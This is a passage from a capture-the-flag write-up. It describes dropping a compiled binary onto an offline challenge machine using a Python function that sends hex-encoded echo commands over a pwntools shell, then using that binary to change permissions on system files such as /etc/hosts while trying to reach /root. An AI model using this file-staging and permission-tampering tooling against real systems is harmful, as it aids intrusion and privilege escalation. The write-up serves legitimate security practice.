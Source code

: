 The challenge instance did not have a network connection to the outside world or `gcc` or any other compiler installed, so we couldn't simply `wget` the source or compiled version of the program. 

Instead, we opted for the approach of slowly building up a binary file on the challenge instance through the use of lots of `echo` commands. We tried to use one large `echo -n -e '\x7f\x45...' > /tmp/outfile` with the entire file in the `...`, but either pwntools or the challenge's buffer wasn't going to allow that. 

Our solution ended up being a function called `drop_file(remote_pwn,local_file, dest)`, which allows us to drop files, with either ASCII or binary data, onto remote challenge instances without an internet connection:

```python
def drop_file(remote_pwn,filename,dest):
    with open(filename,'rb') as fp:
        data = fp.read()
    data = binascii.b2a_hex(data)
    pieces = [data[i:i+450] for i in range(0, len(data), 450)]
    for i,piece in enumerate(pieces):
        piece = str(piece)[2:-1]
        piece = '\\x' + '\\x'.join(a+b for a,b in zip(piece[::2],piece[1::2]))
        ret = f"echo -n -e '{piece}' >> {dest}"
        remote_pwn.sendline(ret)
        print(f"sending {filename} [{i+1}/{len(pieces)}]")
        remote_pwn.recvuntil('/ $ ')
```

Now, all we had to do was run 

```bash
gcc connect.c -o connect
```

and add the following to our [python script](solve.py) right before `p.interactive()`:

```python
...
drop_file(p,'connect','/tmp/connect')
p.interactive()
```

Once we were dropped into the challenge instance, all we had to do was run `chmod +x /tmp/connect` and we could change file permissions like so:

```bash
/tmp/connect /etc/hosts 511
```

**While the `drop_file()` function ended up not being necessary for this specific challenge, we still use it throughout the rest of this writeup. However, this function may be useful in other CTF challenges in the future where tranferring a binary data/executable file is required.**

Because the directory we needed to view was `/root`, we tried changing the permissions on it to be readable for everyone, but that did not work. 

After trying a few things here and there, we ended up running the `id` command:

```bash
$ id
uid=1000 gid=1000(sudo) groups=1000(sudo)
```
